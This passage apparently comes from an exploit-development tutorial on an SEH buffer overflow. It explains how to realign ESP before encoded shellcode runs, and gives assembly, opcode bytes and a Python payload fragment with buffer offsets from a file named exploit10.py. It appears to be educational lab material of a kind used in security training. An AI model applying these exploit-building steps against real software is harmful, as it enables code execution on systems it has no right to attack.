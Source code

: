 		<img src="Images/I44.png" width=600>

	2. The encoder that we generate may preform operations on the stack so we want to really make sure this will not corrupt our shell code and if we generate an instruction to later place it on the stack using a `PUSH EAX` instruction we need to make sure the location we write this to is accessible to our shell code. So we can simply realign the `ESP` value similar to how we did this in [exploit7b.py](./SourceCode/exploit7b.py). We modify it so the ESP is subtracted from, putting it in a better position.

	```
	PUSH ESP  		   ; Push the ESP register's value onto the stack 
	POP EAX   		   ; Pop the ESP register's value as it is at the top of the stack into EAX
	SUB AX,0x30        ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x30
	PUSH EAX           ; Push the EAX register containing the adjusted ESP onto the stack
	POP ESP            ; Pop the adjusted ESP value into the ESP register
	``` 

	* This results in the code shown in [exploit10.py](./SourceCode/exploit10.py)
		```
		b'A' * (3506 - 79) +
		# Align stack for long jump
		b'\x54' +           # PUSH ESP
		b'\x58' +           # POP EAX
		b'\x2c\x30' +       # SUB AL,30
		b'\x50' +           # PUSH EAX
		b'\x5c' +           # POP ESP
		b'A' * (79 - 6) +   # Fill the rest of our buffer with A
		```
		* `b'A' * (3506 - 79)` We place the first series of `A`s so that out stack realignment is placed where the 127-byte short jump lands
		* We inject the necessary instructions for the stack realignment
		* `b'A' * (79 - 6)`: We place additional A's so the short conditional jumps are placed where the SEH handler jumps to.
	5. We can modify the exploit program to reflect [exploit10.py](./SourceCode/exploit10.py) and test the program as we have done previously.
